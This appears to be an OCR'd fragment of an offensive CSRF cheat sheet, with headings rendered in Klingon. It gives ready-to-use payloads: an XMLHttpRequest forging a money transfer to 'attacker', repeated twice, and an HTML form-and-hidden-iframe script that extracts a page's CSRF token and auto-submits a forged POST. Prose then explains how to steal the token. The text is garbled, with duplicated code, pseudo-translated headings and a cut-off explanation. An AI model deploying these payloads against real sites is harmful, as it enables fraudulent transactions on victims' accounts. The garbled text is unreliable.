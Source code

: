 #### **Ajax Method**

#### **Ajax tuj**

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://www.example.com/transfer", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("amount=1000&recipient=attacker");
```

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://www.example.com/transfer", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("amount=1000&recipient=attacker");
```
```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```
### **Steal CSRF Token and sen a POST request using an iframe and a form**

### **QaStaHvIS CSRF Token je 'ej 'ej POST request yIlo' iframe 'ej form**

To perform a Cross-Site Request Forgery (CSRF) attack, you need to steal the CSRF token from the target website and then use it to send a malicious POST request. One way to achieve this is by utilizing an iframe and a form.

To steal the CSRF token, you can create an iframe element in your own website that loads the target website's page containing the CSRF token. By accessing the iframe's content, you can extract the CSRF token using JavaScript.

Once you have obtained the CSRF token, you can construct a form with hidden fields that include the necessary parameters for the POST request. Set the form's action attribute to the target website's vulnerable endpoint and set the method attribute to "POST".

